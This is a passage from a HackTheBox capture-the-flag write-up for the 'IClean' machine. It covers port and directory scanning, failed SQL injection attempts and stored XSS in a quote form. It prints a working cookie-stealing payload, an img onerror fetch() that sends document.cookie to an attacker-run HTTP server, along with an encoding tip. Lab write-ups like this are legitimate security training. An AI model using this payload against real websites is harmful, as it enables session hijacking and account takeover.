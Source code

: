 ```yaml
---
layout: article
title:  "IClean - HackTheBox Writeup"
date: "2024-05-18"
image: "/assets/img/iclean/homepage.png"
tags: ["linux", "website", "xss", "cookies"]
---
```



IClean is a box in HackTheBox that features XSS vulnerabilities...

Port scan the machine.

<div class="article-code">
{% highlight sh %}
jeanp@~$ nmap -sVC 10.10.11.12   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 12:46 CDT
Nmap scan report for capiclean.htb (10.10.11.12)
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
|_http-title: Capiclean
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}
</div>

Let's go to port 80.

<div class="article-image">
  <img src="/assets/img/iclean/homepage.png">
  <p>home page</p>
</div>

Looks like a company that offers cleaning services.

The website has /login and a /quote page with a form.

Let's run dirb to scan the website for more directories.

<div class="article-code">
{% highlight sh %}
jeanp@~$ dirb http://capiclean.htb/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat May 18 15:05:00 2024
URL_BASE: http://capiclean.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://capiclean.htb/ ----
+ http://capiclean.htb/about (CODE:200|SIZE:5267)                                                 
+ http://capiclean.htb/dashboard (CODE:302|SIZE:189)                                              
+ http://capiclean.htb/login (CODE:200|SIZE:2106)                                                 
+ http://capiclean.htb/logout (CODE:302|SIZE:189)                                                 
+ http://capiclean.htb/quote (CODE:200|SIZE:2237)                                                 
+ http://capiclean.htb/server-status (CODE:403|SIZE:278)                                          
+ http://capiclean.htb/services (CODE:200|SIZE:8592)                                              
+ http://capiclean.htb/team (CODE:200|SIZE:8109)                                                  
                                                                                                  
-----------------
END_TIME: Sat May 18 15:11:13 2024
DOWNLOADED: 4612 - FOUND: 8
{% endhighlight %}
</div>

Dirb found /dashboard, but this is a 302 code, a redirect, so I'm not sure what our options are here, maybe the backend code makes this path do a redirect when no cookie is set in the headers. We also have /server-status, but it returns Forbidden, not Unauthorized.

The login form doesn't seem to be vulnerable to SQLis, I tried passing queries listed on [PortSwigger's][PortSwigger] website but no results.

<div class="article-image">
  <img src="/assets/img/iclean/sqli.png">
  <p>/login</p>
</div>

Let's stick with trying to steal cookies exploiting XSS. The only form we can try this on is /quote

<div class="article-image">
  <img src="/assets/img/iclean/quote.png">
  <p>/quote</p>
</div>

<div class="article-image">
  <img src="/assets/img/iclean/thankyou.png">
  <p>/sendMessage</p>
</div>

Looks like the quote request is sent to the management team, we can maybe steal their cookies by sending some scripts with the forms.

Let's try opening and python http server and use the `fetch()` function from javascript in both fields.

<div class="article-code">
{% highlight sh %}
jeanp@~$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
{% endhighlight %}
</div>

<div class="article-image">
  <img src="/assets/img/iclean/scripttag.png">
</div>

This script did not work. Could be the case that the `<script>` tags are filtered and sanitized. Let's try with another approach.

<div class="article-image">
  <img src="/assets/img/iclean/imgscript.png">
</div>

The `img` element has no valid `src`, so the browser returns an error, which makes the `fetch()` function run.

<div class="article-image">
  <img src="/assets/img/iclean/pythonserver.png">
</div>

We get the request.

The service parameter is the one that's vulnerable to XSS, so remove the `img` element from the email field and edit the `fetch()` call to get cookies.

<div class="article-code">
{% highlight javascript %}
<img src=x onerror=fetch('http://10.10.14.142:8000/'+document.cookie);>
{% endhighlight %}
</div>

Since the `+` sign represents a space character when the `Content-Type` of the request is URL-encoded, replace it with `%2b` to avoid breaking the fetch call.

<div class="article-image">
  <img src="/assets/img/iclean/documentcookie.png">
</div>

<div class="article-image">
  <img src="/assets/img/iclean/cookie.png">
</div>

We get the cookie.












































[PortSwigger]: https://portswigger.net/support/using-sql-injection-to-bypass-authentication




























